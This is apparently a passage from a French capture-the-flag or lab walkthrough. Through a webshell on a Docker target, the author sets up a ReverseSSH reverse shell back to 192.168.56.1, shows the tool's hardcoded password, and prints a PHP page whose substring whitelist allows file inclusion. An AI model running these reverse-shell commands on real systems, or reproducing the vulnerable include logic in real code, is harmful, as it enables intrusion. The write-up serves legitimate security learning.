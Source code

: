 ```plain
$ ./reverse-sshx64 -l -p 2244 -v
```

Et sur le Docker (via le webshell du coup) :  

```plain
$ reverse-ssh -v -p 2424 192.168.56.1 
2021/12/16 12:08:44 Dialling home via ssh to 192.168.56.1:2244
2021/12/16 12:08:44 Success: listening at home on 127.0.0.1:8888
2021/12/16 12:09:05 Successful authentication with password from www-data@127.0.0.1:43874
2021/12/16 12:09:05 New login from www-data@127.0.0.1:43874
2021/12/16 12:09:05 PTY requested
2021/12/16 12:09:05 Could not start shell: fork/exec /bin/bash: no such file or directory
```

Il faut répéter la commande avec *-s /bin/sh* pour fixer ce contre temps.  

Cela établit un tunnel SSH. Il faut ensuite utiliser le client SSH standard pour obtenir le shell via ce tunnel sur le port 8888 (valeur par défaut qui peut se changer avec l'option *-b* de *ReverseSSH*).  

```bash
$ ssh -p 8888 brudi@127.0.0.1
```

Le nom d'utilisateur importe peu, il n'est pas pris en compte. Le mot de passe à saisir est hardcodé, il s'agit de *letmeinbrudipls* mais c'est possible de le changer via recompilation de l'outil.  

L'accès plus civilisé me permet de vérifier mes hypothèses comme la whitelist :  

```php
<?php

session_start();

if(isset($_SESSION["loggedin"])){

        $currentURL = $_GET['p'] . '.php';
        $namingWhitelist = ["welcome.php", "balance.php", "transfer.php", "about.php", "account.php", "logout.php"];

        foreach($namingWhitelist as $uri){

                if(strpos($currentURL, $uri) !== FALSE){
                        include($currentURL);
        }

}

} else {
        header("Location: /");
}
```

Il y a deux versions de la page de login et un diff permet de rapidement voir le fix pour la faille SQL :  
